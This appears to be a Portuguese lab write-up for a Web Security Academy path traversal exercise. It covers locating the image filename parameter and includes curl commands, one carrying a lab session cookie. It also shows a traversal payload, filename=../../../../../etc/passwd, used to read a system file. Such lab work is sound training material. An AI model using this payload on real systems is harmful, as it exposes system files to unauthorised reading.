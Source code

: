 

Primeiro passo é identificar o entry point nesse caso, podendo ser na URL ou em parâmetro de imagens, por exemplo. Na descrição do problema já sabemos que se trata de um parâmetro que carrega as imagens da aplicação. Para identificá-lo, basta executar:

(Importante ressaltar que o cookie informado por meio do curl é por conta da sessão de laboratório estabelecida para meu usuário Academy)

```
curl -H "Cookie: session=HBM2GnZWIIKHhMfiRJ0LZdAau9mSAJoK" -s https://0adb007804c5a068821e0c71003600e6.web-security-academy.net/ | ./extract.rb
```

![](../../../../media/Pasted%20image%2020240728130136.png)

Opções de payload.

```
curl https://0adb007804c5a068821e0c71003600e6.web-security-academy.net/image?filename=../../../../../etc/passwd
```

![](../../../../media/Pasted%20image%2020240728130217.png)


![](../../../../media/Pasted%20image%2020240728130103.png)